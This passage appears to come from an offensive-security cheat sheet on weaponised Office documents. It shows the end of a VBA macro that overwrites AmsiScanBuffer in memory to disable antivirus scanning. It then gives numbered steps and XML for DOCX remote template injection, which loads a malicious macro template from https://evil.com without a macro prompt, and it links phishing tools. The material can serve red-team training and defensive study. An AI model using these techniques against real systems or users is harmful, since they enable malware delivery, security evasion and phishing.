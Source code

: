 ```vb
    Dim ArrayPointer As LongPtr
 
    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
    MyByteArray(5) = 195 ' 0xC3
 
    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
     
End Sub
```

## DOCX - Template Injection

:warning: Does not require "Enable Macro"

### Remote Template

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. **.\word_rels\settings.xml.rels** contains a reference to the template file. That reference gets replaced with a reference to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
    ```
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
    Target="https://evil.com/malicious.dotm" TargetMode="External"/></Relationships>
    ```
7. File gets zipped back up again and renamed to .docx

### Template Injections Tools

* https://github.com/JohnWoodman/remoteInjector
* https://github.com/ryhanson/phishery
